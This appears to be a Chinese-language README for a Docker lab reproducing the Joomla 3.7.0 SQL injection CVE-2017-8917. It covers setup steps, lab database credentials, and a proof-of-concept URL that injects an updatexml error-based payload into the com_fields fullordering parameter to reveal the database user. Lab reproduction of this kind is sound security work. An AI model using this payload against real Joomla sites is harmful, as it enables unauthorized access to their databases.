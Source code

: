 # Joomla 3.7.0 (CVE-2017-8917) SQL注入漏洞环境

## 测试环境

编译及启动测试环境：

```
docker-compose up -d
```

启动后访问`http://your-ip:8080`即可看到Joomla的安装界面，当前环境的数据库信息为：

 - 数据库地址：mysql:3306
 - 用户：root
 - 密码：root
 - 数据库名：joomla

填入上述信息，正常安装即可。

## POC测试

安装完成后，访问`http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)`，即可看到报错信息：

![](1.png)
